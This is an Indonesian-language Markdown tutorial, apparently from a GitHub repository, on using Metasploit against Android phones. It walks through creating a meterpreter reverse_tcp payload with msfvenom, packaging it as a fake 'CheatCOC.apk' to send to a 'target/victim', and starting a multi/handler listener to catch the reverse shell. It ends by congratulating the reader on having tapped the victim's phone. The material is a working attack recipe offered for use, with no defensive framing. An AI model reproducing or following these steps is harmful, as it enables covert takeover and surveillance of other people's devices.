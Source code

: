 # Metasploit

# Android Attack 

![image.png]( {link gambar} ) 
> $sudo apt update

> $sudo apt upgrade

> $ifconfig (untuk mengetahui ip)

> $sudo su (masuk ke menu root)

Membuat payload dengan perintah

> #msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.111.61(ip yang di cek tadi) LPORT=4321 R> CheatCOC.apk

tunggu dan jika sudah selesai cek aplikasi yang sudah di buat tadi di folder /home/kali

kemudian kirim aplikasi ke target/korban

buat exploit handler dengan perintah

> #etc/init.d/postgresql start

> #msfconsole

> #use multi/handler

> #set payload android/meterpreter/reverse_tcp

> #set LHOST 192.168.111.61

> #set LPORT 4321

> #exploit

kemudian tunggu target/korban membuka aplikasi yang sudah di kirim tadi

> #? (untuk melihat menu perintah apa saja yang dapat dilakukan)

selamat kamu telah menyadap hp target/korban mu :)
